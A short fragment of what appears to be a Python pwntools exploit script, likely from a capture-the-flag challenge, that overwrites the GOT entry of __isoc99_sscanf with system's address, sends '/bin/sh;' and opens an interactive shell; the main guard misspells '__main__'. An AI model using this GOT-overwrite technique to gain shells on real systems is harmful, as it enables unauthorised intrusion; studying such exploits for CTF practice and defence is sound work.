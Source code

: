 ```python
	print 'step 3. get shell'
	__isoc99_sscanf_got = p32(elf.got['__isoc99_sscanf'])
	add(__isoc99_sscanf_got,'deadbeef')
	log.success('__isoc99_sscanf:'+hex(elf.got['__isoc99_sscanf']))
	message(p32(system_addr))
	p.sendline('/bin/sh;')
	p.interactive()

if __name__ == '__mian__':
  pwn()
```

